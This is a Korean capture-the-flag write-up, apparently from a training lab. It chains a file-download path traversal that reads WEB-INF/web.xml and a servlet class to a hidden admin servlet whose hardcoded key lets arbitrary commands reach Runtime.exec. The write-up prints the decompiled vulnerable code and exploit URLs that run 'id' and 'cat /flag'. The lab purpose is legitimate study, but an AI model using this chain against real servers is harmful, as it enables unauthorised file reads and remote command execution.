


## capstone/jsp-chain

`/download` 에 접근했을 때 웹 페이지에 `usage: /download?file=docs/readme.txt` 가 떴다 이를 통해

`/download?file=` 을 통해 파일이 읽히는 것을 확인했다. `web.xml` 을 읽기 위해 `/download?file=WEB-INF/web.xml` 을 하여 해당 파일을 다운 받았다.

```python
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
         version="3.1">
  <servlet>
    <servlet-name>download</servlet-name>
    <servlet-class>com.corp.DownloadServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>download</servlet-name>
    <url-pattern>/download</url-pattern>
  </servlet-mapping>

  <!-- 내부 운영용 엔드포인트 (비공개 경로) -->
  <servlet>
    <servlet-name>sysexec</servlet-name>
    <servlet-class>com.corp.AdminServlet</servlet-class>
  </servlet>
  <servlet-mapping>
    <servlet-name>sysexec</servlet-name>
    <url-pattern>/sys/exec-9f3a</url-pattern>
  </servlet-mapping>
</web-app>
```

`/sys/exec-9f3a` 경로에 관리자용 서블릿`com.corp.DownloadServlet` 가 존재 한다는 사실을 알게 되었고  이를 다운로드 기능을 통해 확인해 보았다.

```python
/download?file=WEB-INF/classes/com/corp/AdminServlet.class
```

받은 파일을 디컴파일을 해보면 아래와 같이 나온다

```java
package com.corp;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class AdminServlet
extends HttpServlet {
    private static final String OPS_KEY = "Zx9_d3c0mp1l3_th1s_k3y_2026";

    protected void doGet(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse) throws IOException {
        int n;
        String string = httpServletRequest.getParameter("key");
        if (!OPS_KEY.equals(string)) {
            httpServletResponse.setStatus(403);
            httpServletResponse.getWriter().println("forbidden");
            return;
        }
        String string2 = httpServletRequest.getParameter("cmd");
        InputStream inputStream = Runtime.getRuntime().exec(string2).getInputStream();
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        byte[] byArray = new byte[4096];
        while ((n = inputStream.read(byArray)) != -1) {
            byteArrayOutputStream.write(byArray, 0, n);
        }
        httpServletResponse.getWriter().println(byteArrayOutputStream.toString());
    }
}
```

인증키 `Zx9_d3c0mp1l3_th1s_k3y_2026` 가 노출되어 있고 cmd 파라미터를 runtime.exec()에 별도의 검증 없이 넘긴다는 사실을 확인했다.

위에서 얻은 앤드포인트와 조합해 `http://edu.arang.kr:9711/sys/exec-9f3a?key=Zx9_d3c0mp1l3_th1s_k3y_2026&cmd=id` url 요청을 날려보았다.



id 명령이 성공적으로 실행된 모습이다.

```python
http://edu.arang.kr:9711/sys/exec-9f3a?key=Zx9_d3c0mp1l3_th1s_k3y_2026&cmd=cat /flag
```

이와 같은 url 요청을 날려 flag를 획득하였다.



flag{aff6951b0cfd99b6a595}
